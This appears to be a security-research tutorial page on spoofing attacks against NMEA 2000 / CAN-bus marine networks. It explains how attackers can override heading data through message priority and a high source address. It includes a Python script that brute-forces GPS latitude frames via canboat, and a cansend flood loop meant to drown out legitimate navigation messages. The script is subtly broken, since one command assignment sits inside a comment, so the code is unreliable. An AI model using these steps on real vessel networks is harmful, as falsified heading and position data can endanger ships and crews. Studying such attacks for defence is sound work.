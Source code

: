 ```yaml
---
description: The next step in controlling the network
---
```


# Spoofing Attacks

## What is a Spoofing Attack?

A data spoofing attack is a type of malicious action that involves creating data from scratch that is meant to look like authentic data from another source. Spoofing attacks differ from replay attacks because, unlike a replay attack where an attacker records data from a legitimate source, the data in a spoofing attack is created entirely by the attacker. For example, if an attacker uses an exposed API to find out how to authenticate to a remote server, then crafts and sends the necessary data string to log in, the attacker has executed a data spoofing attack.

## Spoofing Attacks on NMEA 2000

Many of the same vulnerabilities and design decisions that make NMEA 2000 networks vulnerable to replay attacks also make them vulnerable to spoofing attacks. However, there are other features of NMEA 2000 that can make spoofing attacks even more effective.

### Message Priority

In CAN-BUS networks, messages are send based on an arbitration system. This system allows multiple devices to use the same broadcast network at the same time. In order to arbitration to work correctly, devices on a CAN-BUS network must all agree to follow the same rules regarding arbitration... except for an attacker's. Spoofed data strings targeting a NMEA 2000 network can have their priority changed to "outrank" other messages on the network.

### Data Field Manipulation

In some instances, changing other parts of the data string during a spoofing attack can make an attacker's messages more important than the legitimate ones on the network. For example, on both the HackBoat and Shuman networks, sending a heading update with a higher source address will completely take precedence over a heading update from a lower source address. As previously mentioned, there is no access controls nor authentication regarding source and destination addresses, and an attacker can spoof heading data with a source address of 255 (highest possible) to always have priority on the network of the heading updates.

## Challenges to Spoofing attacks

While spoofing attacks offer all sorts of possibilities to change data in more specific ways than replay attacks, there are extra challenges with spoofing. Firstly, not all data strings and protocols are publicly available knowledge. That means in order to write custom data, an attacker has to reverse engineer the derivation of the data they want to send. Additionally, there can be higher level controls regarding authentication and integrity that are more likely to be met with a replay attack than a spoofing attack.

## Demonstration

{% embed url="https://canboat.github.io/canboat/canboat.xml#bitfield-enumerations" %}

Once you've found a data field that you're interested in spoofing we recommend reading the documentation linked above and seeing if it has been reverse engineered.  If so building off of their research will help speed up the process.  If not, you can use tools like python to rapidly create various binary and hex payloads that you can send into the canboat `analyzer` and read the output.

Example python binary brute forcing script using canboat to read the translated values:

```python
#!/usr/bin/python3
import os
longZero="00000000000000000000000000000000"
lat="000000000000000000000000000000000"
whole="00000000000000000000000000000000000000000000000000000000000000000"

os.system("echo > bounds.txt")

f=open("latcsv2.csv","w")

def increment_binary(s): #Take a number and add 1, then return the binary
    s='{:034b}'.format(1+int(s,2))
    # s=s+longZero
    return s
for i in range(60000): #Arbitrarily large number for data points
    lat = increment_binary(lat) #Go up by 1 every loop
    # print("ITERATION : " + str(i))
    binaryy=lat+ " : " 
    # print("BRINARY : " + binaryy)
    hexString="{:016x}".format(int(lat+longZero,2)) #Format string to keep length of binary consistant
    command2="echo \"echo '(1664564348.469461) can0 09F8016E#" + hexString + ",\" >> bounds.txt" #You may need to change the ARB_ID used to match your specific purposes.    command3="echo -n '" + binaryy + ",' >> bounds.txt"
    command="echo '(1664564348.469461) can0 09F8016E#" + hexString + "' | candump2analyzer|analyzer"
    command4="echo 'Decimal : " + str(i+1) + "' >> bounds.txt"
    os.system(command2)
    os.system(command3)
    command5=os.popen(command).read()
    print(command5)
    os.system(command4)
    os.system("echo "" >> bounds.txt")
    print(command5.split())
    latHuman=command5.split("=")[1]
    latHuman2=latHuman.split(";")[0]
    f.write(str(i+1)+","+hexString+","+latHuman2+"\n")
```



This script will automate checking the binary boundaires of GPS position updates sent by NMEA2000.  Then you can use this information and begin looking for things like how mant bits affect certain fields, whether or not they appear to be signed or unsigned integers, what the bounds of the output are, and anything else that may help you gain a better understanding of how to create your own can frame.

## Execution

Once you have a can frame that you'd like to send, meaning you have the correct Arbitaration ID and the desired data field, sending is quite simple.

```
cansend can0 <ARB_ID>#<DATA>
```

This will send a single frame from your plant device to the NMEA2000 network connected on `can0`, with the arbitration ID and data field specified.

Because information on the bus is constantly updating, often times its necesarry to constnatly send this message to try and drown out the legitimate messages also being sent on the bus.

To accomplish this a while loop in bash can be used.

```
while true; do cansend <ARB_ID>#<DATA>; done
```

This command will send your message as fast as the plant device can, until you exit out of the loop with `Cntrl+C`.



